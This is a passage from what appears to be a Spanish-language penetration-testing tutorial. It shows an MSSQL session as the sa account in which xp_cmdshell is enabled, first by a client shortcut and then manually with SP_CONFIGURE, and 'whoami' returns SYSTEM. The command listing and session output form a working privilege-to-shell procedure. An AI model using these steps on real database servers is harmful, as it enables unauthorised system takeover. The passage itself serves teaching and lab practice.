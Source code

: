 Ahora, veamos qué comandos podemos usar:
```batch
SQL (sa  dbo@master)> help
.
    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
```
Podemos habilitar **xp_cmdshell** para poder ejecutar comandos.

Habilitémoslo:
```batch
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DESKTOP-M464J3M\COMPAC): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DESKTOP-M464J3M\COMPAC): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```

Probemos a ejecutar un comando:
```batch
SQL (sa  dbo@master)> xp_cmdshell "whoami"
output                
-------------------   
nt authority\system   

NULL
```
Genial, parece que somos el administrador.

En caso de que no pudiéramos habilitar **xp_cmdshell** con el comando **enable_xp_cmdshell**, podemos hacerlo de forma manual:
```batch
SQL (sa  dbo@master)> SP_CONFIGURE "show advanced options", 1;
INFO(DESKTOP-M464J3M\COMPAC): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE;
SQL (sa  dbo@master)> SP_CONFIGURE "xp_cmdshell", 1;
INFO(DESKTOP-M464J3M\COMPAC): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE;
```
